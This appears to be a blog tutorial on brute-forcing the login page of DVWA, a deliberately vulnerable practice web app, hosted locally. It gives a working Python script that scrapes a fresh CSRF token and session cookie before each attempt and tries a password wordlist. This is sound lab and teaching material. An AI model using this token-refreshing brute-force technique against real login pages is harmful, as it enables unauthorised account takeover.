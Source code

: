 ```yaml
---
title: Brute forcing DVWA's initial login page 
slug: brute-forcing-dvwas-initial-login-page 
date: 2022-09-17 
updated_at: 2022-09-17 
description: "Although it is quite easy to see write-ups for the DVWA's brute force login challenge, hacking its actual login page may bring up some challenges for newcomers. Let's understand why and how to circumvent it"
---
```


Although it is quite easy to find write-ups for the DVWA's brute force login challenge, hacking its actual login page may bring up some challenges for newcomers. Let's understand why and how to circumvent it!

[Damn Vulnerable Web App, also known as DVWA](https://github.com/digininja/DVWA), is a PHP/MySQL web application that is purposefully vulnerable, as the name suggests, to be hacked, tested, and serves as a learning playground for people that want to practice their security skills in a legal environment.

When we set up our DVWA server (in this case, I preferred using a docker image to host it for me), and do an initial reset database it will set up and show the default credentials for us: username `admin` and password `password`, pretty common default credentials for a web server, right? However, if we could not hack, automate, and find our own way to the system, how fun would it be?

So, this is the first thing we see when we access our DVWA page:
![DVWA Login Page](/blog/assets/dvwa/DVWA-Login-Page.png)

First things first, let's try to grasp this page and see if we can grab any hints that we could use, for it let's check the network tab as well. You can use another proxy to intercept requests too if you prefer.

![Highlighted requests](/blog/assets/dvwa/highlighted-requests.png)

As you can see, I've highlighted some things in the image above. The request highlighted in blue is the POST request we just made trying to log in. After that, the server processes the request and redirects us to `login.php` as we can see in the red highlight, with a message of "Login failed", as shown in the yellow highlight on the left. Let's copy the post request as a [cURL](https://curl.se/) command and see how it is formed. 

![Copy request as cURL command](/blog/assets/dvwa/copy-as-curl.png)

Although cURL commands are pretty useful, I don't find them easy to read, so let's transform it into a Python request and see how it looks. For that, we can use the [cURL converter website](https://curlconverter.com/python/) to do the job for us and its output will look something like this:

```python
import requests

cookies = {
    'PHPSESSID': 'fmpdptokjk1ogvashj9j5usdn4',
    'security': 'low',
}

headers = {
    ...
}

data = {
    'username': 'teste',
    'password': '123',
    'Login': 'Login',
    'user_token': 'e877712995a1d2bbae4c622fff7f9b9a',
}

response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
```

Here we can see a few interesting things in the request we made:  a cookie called `PHPSESSID ` and a parameter called `user_token`, if we try to refresh the page and log in again we'll see that both of them will have new values. `PHPSESSID` is a PHP way of setting a session cookie and `user_token` looks like a [CSRF Token](https://portswigger.net/web-security/csrf/tokens), a unique, unpredictable value that the server uses to validate the given request and properly process it if valid. Let's see what happens if we make a few requests without changing its value:

```python
for _ in range(1, 3):
    response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
    print(response.content)
    print("==============")
```

The output we have is:

![Print screen of the invalid CSRF output](/blog/assets/dvwa/invalid-csrf-token.png)

After the first request, you'll probably see we have a `CSRF token is incorrect` message within its body content, so this confirms our theory! So what can we do to get around it and be able to automatize our requests? 

First of all, we've already seen that every time we load the page a new token is generated for us, we can use that for getting a new token before every new request we make, so let's try making a `GET` request and see what we get.

```python
response = requests.get('http://localhost/login.php')

print(response.content.decode('UTF-8'))
```

And we'll get a tag like this within our response:

```html
<input type=\'hidden\' name=\'user_token\' value=\'faaf19846a466a9f328f2a43a06cfdb6\' />
```

So we can probably extract that using a [regex](https://en.wikipedia.org/wiki/Regular_expression). Let's try that

```python
def get_user_token(body):
    return re.search("user_token\\\' value=\\\'(.+)\\\'", body).group(1)
```

Let's also get the `PHPSESSID` cookie, since we're already getting data from the new request. It is in the Headers, however, we can do it a little bit easier than the token.

```python
def get_phpsessid(headers):
    return headers['Set-Cookie'].split(';')[0].split('=')[1]
```

And wrap up everything into a single function

```python
def set_request_tokens():
    response = requests.get('http://localhost/login.php')
    cookies['PHPSESSID'] = get_phpsessid(headers=response.headers)
    data['user_token'] = get_user_token(body=response.content.decode('UTF-8'))
```

Let's set a small wordlist of passwords so we can test if we find a successful login.

```python
PASSWORDS = [
    "teste",
    "admin",
    "password",
    "tentativa",
    "aloha",
    "ihuuuu",
    "qwerty",
    "qw12er34ty56"
]
```

so, just to finish our little script, let's build the last function to do the dirty work for us.

```python
def brute_force():
    for password in PASSWORDS:
        set_request_tokens()
        data['password'] = password
        response = requests.post('http://localhost/login.php', cookies=cookies, headers=headers, data=data)
        
        if 'Login failed' in response.content.decode('UTF-8'):
            continue

        print("=================")
        print("Successful Login!")
        print("Credential Found:")
        print(f"- Username: {data['username']}")
        print(f"- Password: {data['password']}")
        print("=================")
```

This function iterates over the PASSWORDS list we've defined earlier, sets the tokens we need for every new request, and, finally, does the request. After that, we check if there's a `Login failed` message within the response content to see if we succeeded or not and then print out the credentials found. The final output will look like this:

![Script output Result](/blog/assets/dvwa/script-output.png)

## Conclusion

And that will be it! Although it's a very simple hacking problem, some people might run into trouble dealing with those tokens and not understand what's going on. Especially when we try to use tools such as Burp Suite or [THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) for brute forcing it, since the results may not be consistent if not set up correctly. You can find the whole script in my [Github](https://github.com/davidpalves/writeups/blob/main/dvwa/dvwa-login.py).

Feel free to comment below with any questions, suggestions, or relevant points you might have!
